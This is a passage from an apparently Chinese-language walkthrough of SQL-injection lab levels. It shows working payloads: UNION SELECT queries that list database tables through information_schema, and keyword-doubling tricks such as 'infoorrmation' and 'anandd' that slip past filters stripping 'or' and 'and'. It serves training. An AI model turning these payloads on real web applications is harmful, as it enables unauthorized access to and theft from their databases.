 ![image](https://user-images.githubusercontent.com/76896357/115099671-fe31ef80-9f69-11eb-9513-73448e37a1c4.png)

* 查表
```
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
?id=-1' union select 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema=database() --+
```

![image](https://user-images.githubusercontent.com/76896357/115099731-608af000-9f6a-11eb-868f-118da39c30a4.png)

看这就出毛病了

but,双写一下就好了啊

![image](https://user-images.githubusercontent.com/76896357/115099753-94feac00-9f6a-11eb-8a5b-d29a203728c0.png)

加个group_concat完美些

![image](https://user-images.githubusercontent.com/76896357/115099813-faeb3380-9f6a-11eb-8e8a-aa9f13a41d67.png)

同样，构建password的时候也要写成passwoorrd

这里就不介绍了。。。

## 26. 过滤一堆的注入

* 查询闭合方式
```
?id=1' and 1=1 --+
```
![image](https://user-images.githubusercontent.com/76896357/115099874-6208e800-9f6b-11eb-825f-cf35a471ba8f.png)

显然是‘闭合

* 查看又没有回显

![image](https://user-images.githubusercontent.com/76896357/115099911-abf1ce00-9f6b-11eb-9dd6-c4b4949809e5.png)

没有回显，根据提示也能知道

* 看看有没有报错

```
id=1' anandd 1=2 -- 
```

![image](https://user-images.githubusercontent.com/76896357/115099935-d3e13180-9f6b-11eb-9f42-5762b727f1cf.png)

好家伙不仅没有报错，还把and和or过滤了

![image](https://user-images.githubusercontent.com/76896357/115100004-5833b480-9f6c-11eb-9bc1-b6cdab9881a4.png)

实在看不出来了，来代码审计吧
